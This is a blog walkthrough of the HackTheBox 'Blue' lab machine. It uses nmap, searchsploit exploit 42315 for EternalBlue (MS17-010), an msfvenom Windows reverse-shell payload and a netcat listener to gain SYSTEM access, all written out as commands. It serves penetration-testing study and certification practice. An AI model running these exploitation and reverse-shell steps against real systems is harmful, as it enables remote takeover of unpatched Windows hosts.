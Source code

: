 ```yaml
---
title: HackTheBox - Blue
date: 2020-09-20 19:01:00 +/- 0000
categories: [HackTheBox,Easy]
tags: [blue,smb,msfvenom,eternalblue]
author: Connor Weeks-Pearson
image: /assets/img/Icons/Blue/Blue.png
---
```


<center> <h1>HackTheBox - Blue Walkthrough</h1> </center>

Blue is the third hackthebox machine i have completed but is the first time without using metasploit. This machine exploits SMB using the famous SMB MS17-010 vulnerability Eternal Blue. 

## Summary

- Port Scan using Nmap
- Searchsploit MS17-010 non-metasploit exploits
- msfvenom to create a non-meterpreter shell.
- netcat listener

---

***Machine IP: 10.10.10.40***

## RECON AND INFORMATION GATHERING
### Port Scan with Nmap

As always, we first begin with a simple nmap port scan to discover any open ports on this machine.

`nmap -n -sV -p- -T 5 -Pn 10.10.10.40`

<pre>
PORT      STATE    SERVICE      VERSION
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
52097/tcp filtered unknown
</pre>

we can see ports 135, 139 and 445 are open. As well as 6 ports for msrpc.

#### SMB

As we have SMB on port 445, lets enumerate further.

`nmap -n -A -p 445 -T 5 -Pn 10.10.10.40`

<pre>
PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m39s, deviation: 34m35s, median: 6m17s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-09-14T21:54:17+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-09-14T20:54:16
|_  start_date: 2020-09-14T20:16:58
</pre>

Knowing this could be exploitable, lets run Nmaps SMB vulnerability scanner against the port 445.

`nmap --script=*vuln-smb* -p 445 10.10.10.40`

<pre>

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
 </pre>

This machine is vulnerable to Eternal Blue, which means remote code execution!

## Exploiting without Metasploit

Lets use searchsploit to find find a non-metasploit exploit in the database.

`searchsploit --id MS17-010`

<pre>
kali@kali:~$ searchsploit --id ms17-010
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  EDB-ID
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (M | 43970
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                     | 41891
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                  | 42031
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)              | 42315
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                        | 42030
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                     | 41987
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

</pre>

The machine is running Windows 7, so lets go ahead and use #42315 by cloning it to our working directory using `searchsploit -m 42315` and then examining the source code. 

The source code requires three things:

1. Download mysmb.py
2. Using MSFVenom to generate a reverse shell payload. This is indicated by:   
    <pre> Note: there are many methods to get shell over SMB admin session. a simple method to get shell (but easily to be detected by AV) is executing binary generated by "msfvenom -f exe-service ..."`</pre>
3. If possible, provide login credentials and point to the msfvenom payload.

### Preparing

First thing to do is clone the github repositoryand then rename it:

`wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py mv 42315.py.1 mysmb.py`

Next, create the msfvenom reverse shell executable payload.

<pre>
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.27 LPORT=4444 > eternal-blue.exe
</pre>

Lastly, as seen in our Nmap scan earlier, SMB supports the user 'guest', so enter the guest credentials into the exploit

![credentials](/assets/img/Icons/Blue/guest.png)

Also we'll add the executable's location to the exploit file to send it and execute it.

![](/assets/img/Icons/Blue/location.png)

And lastly, I will set up a netcat listener on my host machine.

`nc -nvlp 4444`

### Exploiting

Run the python script `python 42315.py 10.10.10.40` and check the netcat listener.

![netcat](/assets/img/Icons/Blue/whoami.png)

We have shell with system access!

### User

![user](/assets/img/Icons/Blue/user.png)

### Root

![root](/assets/img/Icons/Blue/root.png)

## End Notes

I did have some issues when exploiting this machine, but this was due to my own silly errors, such as missing out an ' in service_exec() and putting the file location as /root/.

This is the first machine i have completed without using metasploit, due to the OSCP not allowing it, likewise msfvenom was used due to meterpretor not being allowed either.
